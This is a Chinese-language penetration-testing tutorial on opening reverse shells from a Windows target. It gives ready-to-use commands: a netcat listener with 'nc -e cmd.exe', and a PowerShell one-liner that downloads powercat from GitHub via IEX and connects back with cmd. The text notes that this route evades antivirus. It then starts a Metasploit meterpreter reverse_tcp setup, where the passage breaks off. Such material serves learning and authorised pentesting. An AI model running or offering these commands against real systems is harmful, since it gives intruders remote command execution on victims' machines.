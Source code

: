 1. **nc反弹**


靶机需安装netcat工具，解压后的文件夹里面，按住shift键的同时，在文件夹的空白处鼠标右键打开一个命令窗口。

**步骤**

* 第一步

  攻击机：

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  nc [攻击机ip] [port] -e c:\windows\system32\cmd.exe
  ~~~

2. **powershell反弹**

powercat是netcat的powershell版本，powershell在Windows操作系统下，拥有的权限较高，功能免杀性（渗透中往往因为杀毒软件而渗透失败）都要比netcat好用的多。

**步骤**

* 第一步

  攻击机：

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [攻击机ip] -p [port] -e cmd
  ~~~

  ~~~bash
  下载到目标机器本地后执行
  Import-Module ./powercat.ps1PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
  ~~~

3. **msf反弹**

攻击者在公网kali（公网ip），使用msf工具的 msfconsole进行监听[port]端口的木马反弹。

**步骤**

* 第一步


首先输入msfconsole打开软件然后输入show payloads查看有哪些payloads可以使用，找到所要使用的payload，找到后再前面加上use命令使用。

例如：

~~~bash
use windows/x64/meterpreter_reverse_tcp
~~~
